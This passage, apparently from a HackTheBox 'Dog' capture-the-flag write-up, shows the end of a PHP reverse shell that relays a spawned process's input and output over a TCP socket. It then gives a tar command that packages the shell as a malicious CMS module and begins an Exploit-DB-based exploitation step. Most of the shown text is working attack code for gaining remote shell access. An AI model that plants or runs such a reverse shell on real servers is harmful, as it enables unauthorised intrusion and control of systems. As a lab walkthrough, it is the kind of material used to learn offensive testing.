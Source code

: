 ```php
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

Now, let's make `tar.gz` by including `.info` & `.php` file.

```bash
tar -cvzf shell.tar.gz shell/
```
## Exploitation via Exploit-DB exploit

I ran the exploit to generate a sample module ZIP file.

![Evil Module](/assets/images/writeups/Dog-HTB/11.png)
